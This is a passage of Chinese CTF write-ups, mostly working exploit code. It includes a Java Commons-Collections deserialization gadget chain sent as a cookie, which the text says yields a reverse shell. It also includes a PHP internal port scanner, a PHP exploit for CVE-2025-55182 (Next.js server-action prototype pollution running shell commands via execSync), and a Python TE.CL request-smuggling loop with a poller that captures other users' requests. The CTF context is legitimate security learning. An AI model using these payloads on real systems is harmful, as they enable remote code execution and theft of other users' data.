import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import Hgame.ezCC.Tool;
public class GetFlag {
    public static void main(String[] args) throws Exception {
    //cc3的字节码加载
        TemplatesImpl templates = new TemplatesImpl();
        Class tc=templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaaa");
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("D://tool/flag.class"));
        byte[][] codes={code};
        bytecodesField.set(templates,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        
    //用InstantiateTransformer代替Invokertransform
        Class cs = TrAXFilter.class;
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(cs),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


      //cc6前半段
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        lazyMap.remove("aaa");

        Class c =LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);


        String ser = Tool.base64Encode(Tool.serialize(map2));
        System.out.println(ser);

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        oos.close(); // 必须关闭，否则文件不完整
    }


    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        ois.close(); // 建议关闭
        return obj;
    }


}
```

将序列化并base64输出的内容作为cookie向 /welcome 发送请求即可触发反序列化





反弹shell成功



得到flag




## **easyuu**




## babyweb











```
<?php
set_time_limit(0); // 不超时，扫描要时间
for ($i=1; $i<=254; $i++) {
    $fp = @fsockopen("10.0.0.$i", 3000, $e, $s, 0.1);
    if ($fp) {
        echo "10.0.0.$i:3000 open\n";
        fclose($fp);
    }
}
echo "scan done";
?>
```




```
<?php
// 获取响应头
$headers = get_headers('http://10.0.0.2:3000');
print_r($headers);

echo "<hr>";

// 获取页面内容
$body = file_get_contents('http://10.0.0.2:3000');
echo $body;
?>
```





exp.php（CVE-2025-55182）

```
<?php
$boundary = "----WebKitFormBoundaryx8jO2oVc6SWP3Sad";

$prefix = 'var res=process.mainModule.require(\'child_process\').execSync(\'cat /flag\').toString().trim();;throw Object.assign(new Error(\'NEXT_REDIRECT\'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});';

$payload = [
    "then" => "\$1:__proto__:then",
    "status" => "resolved_model",
    "reason" => -1,
    "value" => "{\"then\":\"\$B1337\"}",
    "_response" => [
        "_prefix" => $prefix,
        "_chunks" => "\$Q2",
        "_formData" => ["get" => "\$1:constructor:constructor"]
    ]
];

$body  = "--$boundary\r\n";
$body .= "Content-Disposition: form-data; name=\"0\"\r\n\r\n";
$body .= json_encode($payload, JSON_UNESCAPED_SLASHES);
$body .= "\r\n--$boundary\r\n";
$body .= "Content-Disposition: form-data; name=\"1\"\r\n\r\n";
$body .= "\"\$@0\"";
$body .= "\r\n--$boundary\r\n";
$body .= "Content-Disposition: form-data; name=\"2\"\r\n\r\n";  // ← 第三部分
$body .= "[]";
$body .= "\r\n--$boundary--\r\n";

$opts = [
    "http" => [
        "method" => "POST",
        "header" => implode("\r\n", [
            "Content-Type: multipart/form-data; boundary=$boundary",
            "Next-Action: 0000000000000000000000000000000000000000",
            "Next-Router-State-Tree: %5B%22%22%2C%7B%7D%5D",
            "Referer: http://10.0.0.2:3000/"
        ]),
        "content" => $body,
        "follow_location" => 0,
        "ignore_errors" => true
    ]
];

$ctx = stream_context_create($opts);
$result = file_get_contents("http://10.0.0.2:3000/", false, $ctx);//可修改

echo "<pre>";
print_r($http_response_header);
echo "</pre>";
echo htmlspecialchars($result);
?>
​```

flag 会出现在响应头的 `x-action-redirect` 里，格式：
​```
x-action-redirect: /login?a=flag{...};push
```





## 《文文。新闻》


先注册一个账号，拿到token






浏览器DevTools里看到`/@vite/client`→认出是Vite开发服务器→利用`/@fs/绝对路径`任意读取文件→猜测标准Rust项目结构读到`main.rs`、、`handler.rs`。`http_parser.rs`

• /app/backend/src/main.rs — 程序入口

• /app/backend/src/handler.rs — 请求处理逻辑

/app/backend/src/http_parser.rs — HTTP 解析器（漏洞所在！）


在 http_parser.rs 中，找到了 parse_packet 函数里的这段代码：






这就造成了前端（Node.js 代理）和后端（Rust 服务器）对同一个请求 body 长度的理解不一致：

• Node.js 看到 Transfer-Encoding: chunked，按分块规则解析，读完一个完整的分块请求

• Rust 看到同样的数据，直接找 Content-Length，找不到就当 body 是 0 字节


```
请求走私利用的就是代理和后端「对请求边界理解不一致」这个漏洞。攻击者可以精心构造一个请求，让代理认为是一个请求，而后端却认为是两个请求。
```

本题是 **TE.CL（Transfer-Encoding / Content-Length）** 类型的走私：

• TE = 代理优先使用 Transfer-Encoding: chunked 解析请求

CL = 后端优先使用 （或找不到就默认0）




```
import socket
import time

# ==================== 配置区域 ====================
# 注意：请填入你截图中看到的 App 端口，这里是 Node.js 代理所在处
TARGET_HOST = "forward.vidar.club"
TARGET_PORT = 31749

# 如果你有一个特定的 Token，可以填这里，否则留空或填匿名 token
MY_TOKEN="a5c11ea7-54f6-405a-9251-90c08a96a9f5" # 如果没有特定 token，尝试留空，或者填 b60d140c-0ff3-4889-94db-6c9b48789b3c


def send_smuggle_attack():
    try:
        # 创建连接
        s = socket.create_connection((TARGET_HOST, TARGET_PORT), timeout=5)

        # --- 构造陷阱请求 (Trap Request) ---
        # 这个请求会被包裹在外面发给后端
        # 关键点：Content-Length 很大，但 Body 很短，诱导后端等待
        trap_request_body = (
            "POST /api/comment HTTP/1.1\r\n"
            f"Host: {TARGET_HOST}\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Authorization: {MY_TOKEN}\r\n"  # 尝试使用 Token
            "Content-Length: 500\r\n"  # <--- 声明长度为 500
            "\r\n"  # <--- 头部结束
            "content=STOLEN_DATA:"  # <--- 实际只发了这几个字，诱导后端继续收数据
        )

        # --- 计算十六进制长度 ---
        # 将字符串转为 hex (例如 len=20 -> '14')
        hex_len = hex(len(trap_request_body))[2:]

        # --- 构造最终的 Payload (Smuggling Wrapper) ---
        payload = (
            "POST /api/smuggle HTTP/1.1\r\n"  # 方法无所谓，重点是 Header
            f"Host: {TARGET_HOST}\r\n"
            "Transfer-Encoding: chunked\r\n"  # <--- 欺骗 Node.js：我是分块传输！
            "\r\n"

            f"{hex_len}\r\n"  # <--- 大小 (Hex)
            f"{trap_request_body}"  # <--- 塞入我们的陷阱请求
            "\r\n"  # <--- 数据结束符

            "0\r\n\r\n"  # <--- chunked 结束
        )

        # 发送数据
        s.sendall(payload.encode())
        print(f"[+] 发送成功 (Payload Length: {len(payload)})")

        # 接收一点响应防止断开
        try:
            s.recv(1024)
        except:
            pass

        s.close()

    except Exception as e:
        print(f"[-] Error: {e}")


if __name__ == "__main__":
    print(f"[*] Start attacking {TARGET_HOST}:{TARGET_PORT}...")
    while True:
        send_smuggle_attack()
        time.sleep(0.5)  # 半秒发一次，保持拥堵
```


```
import urllib.request
import json
import time

# 同样填写域名
API_BASE = 'http://forward.vidar.club:30559'
token="a5c11ea7-54f6-405a-9251-90c08a96a9f5"  # 如果需要登录权限才能看评论，填上面的 MY_TOKEN

while True:
    try:
        req = urllib.request.Request(f'{API_BASE}/api/comment', headers={'Authorization': token})
        resp = urllib.request.urlopen(req, timeout=5)
        comments_data = json.loads(resp.read().decode())

        if isinstance(comments_data, list):
            for c in comments_data:
                content = c.get('content', '')
                username = c.get('username', 'unknown')

                # 检查是否包含我们设定的标记
                if "STOLEN_DATA" in content or "CAPTURED" in content:
                    print("\n" + "=" * 50)
                    print(f"[!] FLAG FOUND! User: {username}")
                    print("=" * 50)
                    print(content)
                    print("=" * 50 + "\n")

                    # 尝试打印 flag 行
                    lines = content.split('\r\n')
                    for line in lines:
                        if "flag:" in line.lower():
                            print(f"[FLAG] {line.strip()}")

    except Exception as e:
        print(f"Error: {e}")

    time.sleep(3)
```


得到flag







# CVE-2025-55182)(春秋)




这里发现Next-Action:KBLW15YViHl-lgXOE9JFh





# 阿里ctf

## **Easy Login**




